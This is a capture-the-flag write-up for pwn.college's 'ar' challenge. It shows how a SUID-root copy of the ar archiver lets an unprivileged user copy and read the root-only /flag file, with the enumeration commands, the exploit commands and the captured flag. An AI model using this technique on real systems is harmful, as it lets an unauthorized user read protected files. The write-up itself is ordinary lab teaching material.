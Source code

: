 # Challenge Name: ar
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/ar`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/ar
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/ar
```

-The `s` in `-rws` indicates it's a SUID binary.
-`ar` runs with **root privileges**.

## 🚀 Exploitation

The `ar` command in Linux is used to create and manipulate archive files (not to be confused with .tar archives). It's primarily used to:

- Manage static libraries (.a) in C/C++

- View or extract contents of Debian .deb packages

- Handle special binary containers

with suid set to `ar` , it can read/copy from any file , so the straight forward solution would be :

```bash
ar rcs myflag.a /flag
ar x myflag.a flag
cat flag
```

this would simply give us flag.

Output:
```
pwn.college{8JaR3NAZvh6kPpvjb3-KsnfzwZ2.dNjNxwSM0IzMyEzW}
```

      

